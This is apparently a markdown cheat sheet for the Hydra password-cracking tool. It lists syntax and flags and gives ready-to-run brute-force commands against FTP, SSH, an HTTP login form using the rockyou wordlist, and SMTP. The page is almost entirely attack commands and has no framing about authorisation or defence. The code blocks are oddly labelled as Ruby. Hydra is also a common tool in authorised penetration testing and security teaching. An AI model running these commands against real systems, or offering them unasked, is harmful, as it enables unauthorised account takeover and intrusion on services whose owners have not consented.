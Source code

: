 # Hydra

Hydra is a powerful tool for password cracking. Here's a comprehensive guide on its usage:

## Basic Syntax

```ruby
hydra -l/-L <user/list> -p/-P <password/dictionary> <IP address> <protocol>
```

## Key Parameters

- `-l`: Specify a single username
- `-L`: Use a list of usernames
- `-p`: Specify a single password
- `-P`: Use a password dictionary
- `-s`: Specify a port number
- `-o`: Save attack results to a file


## Advanced Options

- `-t`: Set number of parallel connections per target
- `-w`: Wait time between connections
- `-f`: Stop attack after first found login/password pair
- `-v`: Verbose mode, show login+pass for each attempt


## Examples

### FTP brute Force

```ruby
hydra -L users.txt -P passwords.txt 192.168.1.100 ftp
```

### SSH with Specific Port

```ruby
hydra -l root -P common_passwords.txt 10.0.0.1 ssh -s 2222
```

### HTTP PostForm

```ruby
hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```
### SMTP with Result Output

```ruby
hydra -L users.txt -P passwords.txt smtp://10.0.0.1 -o smtp_results.txt
```








